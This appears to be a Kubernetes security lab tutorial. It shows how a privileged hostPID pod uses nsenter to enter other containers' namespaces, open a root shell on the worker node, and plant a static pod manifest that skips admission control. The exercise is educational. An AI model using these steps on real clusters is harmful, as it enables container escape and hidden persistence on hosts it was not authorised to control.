 # Hack Session HostPID (Exploration and Exploitation) 

## Step 1: Start first pod 

```
cd
mkdir -p manifests 
cd manifests
mkdir hostpid
cd hostpid
```

```
nano 01-masterpod.yaml
```

```
apiVersion: v1
kind: Pod
metadata:
  labels:
    run: hostmagic
  name: hostmagic
spec:
  containers:
    - command:
      - nsenter
      - --mount=/proc/1/ns/mnt
      - --
      - /bin/sleep
      - 99d
      image: alpine
      name: me
      securityContext:
        privileged: true # superpower !
  dnsPolicy: ClusterFirst
  hostPID: true
  nodeName: worker1
```

```
kubectl apply -f .
```


## Step 2: Start a second pod on same node 

```
cd
mkdir -p manifests 
cd manifests
mkdir hostpid
cd hostpid
```

```
nano 02-nginx3.yaml
```

```
apiVersion: v1
kind: Pod
metadata:
  labels:
    run: nginx3
  name: nginx3
spec:
  containers:
  - image: nginx
    name: nginx3
  nodeName: worker1
```

```
kubectl apply -f .
```

## Step 3: Find the nginx process and enter into its network namespace 

```
kubectl exec -it hostmagic -- pgrep -a nginx
```

![image](https://github.com/user-attachments/assets/c4cc76ff-45f0-4635-b22e-baf2350c19fe)

```
# ss is like netstat
# show the open ports
# we will go into the network namespace  
kubectl exec -it hostmagic -- nsenter -n -t 153770 ss -ln
```

## Step 4: Getting into the mount namespace 

```
# we can also go into the mount namespace and see the configuration file
kubectl exec -it hostmagic -- nsenter -m -t 153770 cat /etc/nginx/nginx.conf
```

## Step 5: Show the namespaces of the pod (its compounds)

  * That's essentially the container we

```
kubectl exec -it hostmagic -- ls -la /proc/153770/ns
```

## Step 6: Break into the host system 


```
# now open a bash on the host system 
kubectl exec -it hostmagic -- nsenter -a -t 1 bash
```

## Step 7: Sneak In your manifest 

  * This is done by kubelet (bypasses admissionController !)
  * It listens on /etc/kubernetes/manifests folder
  * What we see here is a static pod being created 

```
cd /etc/kubernetes/manifests
nano nginxme.yaml 
```

```
apiVersion: v1
kind: Pod
metadata:
  name: nginxme
spec:
  containers:
    - image: nginx
      name: me

```

## Step 8: On Worker 1: is there new pod now ?  

```
# cli for CRI / used whatever container runtime you have 
crictl
```
![image](https://github.com/user-attachments/assets/85d25a49-1c63-4dd2-94e5-5bcfe34364c1)


## Ref: kubelet reading the folder /etc/kubernetes/manifests is there for backwards compability

  * https://github.com/kubernetes/kubeadm/issues/1541



